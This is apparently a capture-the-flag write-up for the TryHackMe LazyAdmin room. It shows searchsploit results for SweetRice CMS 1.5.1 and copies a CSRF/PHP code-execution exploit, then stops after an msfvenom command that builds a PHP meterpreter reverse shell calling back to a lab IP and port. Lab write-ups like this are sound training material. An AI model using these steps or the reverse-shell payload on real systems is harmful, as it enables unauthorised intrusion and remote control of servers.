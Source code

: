 Knowing the version of Sweet Rice from prior enumeration allowed me to narrow down the possible attack vectors to get an initial foothold on the target system
```
searchsploit Sweet Rice 1.5.1
------------------------------------------------------------------------------------------------------------------------------------------------------------------ ---------------------------------
 Exploit Title                                                                                                                                                    |  Path
------------------------------------------------------------------------------------------------------------------------------------------------------------------ ---------------------------------
SweetRice 1.5.1 - Arbitrary File Download                                                                                                                         | php/webapps/40698.py
SweetRice 1.5.1 - Arbitrary File Upload                                                                                                                           | php/webapps/40716.py
SweetRice 1.5.1 - Backup Disclosure                                                                                                                               | php/webapps/40718.txt
SweetRice 1.5.1 - Cross-Site Request Forgery                                                                                                                      | php/webapps/40692.html
SweetRice 1.5.1 - Cross-Site Request Forgery / PHP Code Execution                                                                                                 | php/webapps/40700.html
------------------------------------------------------------------------------------------------------------------------------------------------------------------ --------------------------------

```
The following command copies the file/exploit to the current directory in use
```
 searchsploit -m php/webapps/40700.html
  Exploit: SweetRice 1.5.1 - Cross-Site Request Forgery / PHP Code Execution
      URL: https://www.exploit-db.com/exploits/40700
     Path: /usr/share/exploitdb/exploits/php/webapps/40700.html
    Codes: N/A
 Verified: True
File Type: HTML document, ASCII text
Copied to: /root/Desktop/Tryhackme/LazyAdmin/40700.html

```
-----
**Contents of 40700.html**

To summarize, the contents of this html file, a php reverse shell can be generated
```
# Description :
 
# In SweetRice CMS Panel In Adding Ads Section SweetRice Allow To Admin Add

PHP Codes In Ads File

# A CSRF Vulnerabilty In Adding Ads Section Allow To Attacker To Execute

PHP Codes On Server .

# In This Exploit I Just Added a echo '<h1> Hacked </h1>'; phpinfo();

Code You Can

Customize Exploit For Your Self .
```
-----
**Reverse Shell Payload Creation**
Using msfvenom I create a php  meterpreter reverse shell 
```
msfvenom -p php/meterpreter_reverse_tcp LHOST=10.13.0.39 LPORT=4444 -f raw > shell.php
[-] No platform was selected, choosing Msf::Module::Platform::PHP from the payload
[-] No arch selected, selecting arch: php from the payload
No encoder specified, outputting raw payload
```